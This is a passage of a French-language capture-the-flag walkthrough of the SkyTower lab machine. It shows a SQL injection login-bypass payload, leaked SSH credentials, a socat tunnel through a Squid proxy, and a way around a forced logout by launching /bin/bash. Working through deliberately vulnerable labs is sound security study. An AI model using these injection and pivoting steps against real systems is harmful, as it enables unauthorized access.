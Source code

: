 ```plain
' || 1;#
```

Ce qui nous donne la page suivante :  

```plain
Welcome john@skytech.com

As you may know, SkyTech has ceased all international operations.

To all our long term employees, we wish to convey our thanks for your dedication and hard work.

Unfortunately, all international contracts, including yours have been terminated.

The remainder of your contract and retirement fund, $2 ,has been payed out in full to a secure account.
For security reasons, you must login to the SkyTech server via SSH to access the account details.

Username: john
Password: hereisjohn 

We wish you the best of luck in your future endeavors.
```

Atterissage
-----------

Maintenant avec des identifiants SSH en main, on ouvre un tunnel passant par le proxy *Squid* à l'aide de *socat* :  

```plain
socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
```

La connection passe (presque) comme dans du beurre :  

```plain
$ ssh john@127.0.0.1 -p 9999
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

Funds have been withdrawn
Connection to 127.0.0.1 closed.
```

Essayons de faire éxécuter une autre commande :  

```plain
$ ssh john@127.0.0.1 -p 9999 /bin/bash
john@127.0.0.1's password: 
id
uid=1000(john) gid=1000(john) groups=1000(john)
tail .bashrc
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

echo
echo  "Funds have been withdrawn"
exit
```

